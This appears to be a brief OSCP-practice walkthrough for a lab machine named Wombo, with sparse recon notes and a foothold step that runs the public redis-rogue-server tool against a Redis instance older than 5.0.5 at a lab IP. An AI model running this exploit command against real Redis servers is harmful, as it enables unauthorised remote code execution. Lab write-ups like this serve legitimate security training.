

# Wombo Walkthrough
Name: Wombo
Date: 14/10/2022
Difficulty:  Easy
Goals:  OSCP - just bang out one quick machine
Learnt: Must google more exploits

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Sitemap: http://localhost:4567/sitemap.xml

The rabbit holes are everywhere for this box.
 

The Api uses localhost on inaccesssible port
  

Weird false positives


  


## Exploit && Foothold && PrivEsc

We can create a redis rogue server as redis is < v=5.0.5
https://github.com/n0b0dyCN/redis-rogue-server
   
```
python3 redis-rogue-server.py --rhost 192.168.125.69 --lport 6379 --lhost <address>  --lport 6379
```


